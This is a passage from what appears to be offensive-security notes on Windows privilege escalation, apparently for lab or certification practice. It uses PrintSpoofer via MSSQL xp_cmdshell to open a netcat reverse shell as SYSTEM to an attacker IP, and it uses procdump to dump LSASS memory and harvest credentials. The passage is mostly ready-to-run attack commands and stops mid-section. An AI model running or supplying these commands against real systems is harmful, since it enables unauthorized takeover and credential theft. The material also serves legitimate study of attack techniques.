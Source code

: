         # we get reverse shell as SYSTEM on our listener
        ```
    
    * PrintSpoofer and RoguePotato exploit:

        ```sh
        # JuicyPotato does not work on Windows Server 2019 and Windows 10 build 1809 onwards
        # we can use other exploits like PrintSpoofer and RoguePotato

        # in MSSQL shell, after enable_xp_cmdshell
        # we can leverage the same privileges for PrintSpoofer exploit
        xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
        
        # we get reverse shell as SYSTEM on our listener at port 8443
        ```

* SeDebugPrivilege:

    ```sh
    # suppose we have foothold of a Developer user
    # open an elevated shell to check
    whoami /priv
    # SeDebugPrivilege listed - not necessarily enabled

    # to search for procdump.exe in C:
    dir C:\procdump.exe /s /p
    # cd to this directory

    procdump.exe -accepteula -ma lsass.exe lsass.dmp
    # use ProcDump from SysInternals suite to use this privilege and dump process memory
    # LSASS process stores user creds so we can start with that
